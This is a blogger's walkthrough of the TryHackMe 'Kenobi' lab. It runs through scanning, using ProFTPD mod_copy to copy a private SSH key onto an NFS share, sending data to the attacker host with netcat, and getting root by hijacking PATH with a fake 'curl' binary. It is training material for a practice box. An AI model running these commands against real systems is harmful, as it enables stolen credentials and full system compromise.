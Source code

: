 *2021-08-27*

*kimm3*

# Walkthrough: Kenobi
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/kenobi)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.188.113
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210826143428988.png)

`sudo nmap $IP -Pn -p 445 --script=smb-enum-shares,smb-enum-users`

![nmap-smb](assets/markdown-img-paste-2021082711542957.png)

`smbclient //$IP/anonymous`

![smbclient-get-logtxt](assets/markdown-img-paste-20210827115620291.png)

### Logfile
'log.txt' contains several configurations.

It starts with the generation of a SSH RSA key pair. So we know the location and file names for them:

![ssh-gen](assets/markdown-img-paste-20210827121622981.png)

It also contains the configuration for the proftp daemon, and it has a anonymous user enabled.

![ftpuser](assets/markdown-img-paste-2021082712170594.png)

The server is running as the user kenobi(same as the ssh-keys).

It also contains the samba config.
### NFS
From the inital nmap scan. We have another possibility, the rpcbind service binds to a NFS service.

![nfs](assets/markdown-img-paste-20210827121857507.png)

`sudo nmap $IP -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount`

![nmap-nfs](assets/markdown-img-paste-20210827122105365.png)

The `/var` folder is shared.
## Foothold/Exploit
Plan: Copy kenobis private ssh key using the mod_copy [vulnerability](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/) to the `/var` folder, retrieve it and log in as kenobi.

```
mkdir mnt
sudo mount $IP:/var mnt
ls -la mnt
nc $IP 21
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO /var/tmp/id_rsa
cp mnt/id_rsa creds
chmod 600 creds/id_rsa
ssh -i creds/id_rsa kenobi@$IP
```

![mntfolder](assets/markdown-img-paste-20210827123443854.png)

![ftpcopy](assets/markdown-img-paste-20210827123457513.png)

![sshsuccess-usertxt](assets/markdown-img-paste-20210827123657453.png)
## Privilege Escalation
Search for files with setUID-bit set.

```
#on host
nc -lp 1234 > foundfiles/setUIDsearch.txt

# on target
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null | nc 10.8.210.115 1234
```

![setUIDsearch](assets/markdown-img-paste-20210827124253258.png)

`/usr/bin/menu` is not standard.

![menu](assets/markdown-img-paste-2021082712442919.png)

Seems to be running common commands to show info about target machine.

`strings /usr/bin/menu`

![strings-menu](assets/markdown-img-paste-20210827124402562.png)

It runs curl, ifconfig and uname - with relative paths. We can tamper with the path of kenobi to use this.

```
echo "/bin/bash" > curl
chmod 770 curl
echo PATH=/home/kenobi:$PATH
menu
# choose 1
```

![roottxt](assets/markdown-img-paste-20210827124829946.png)
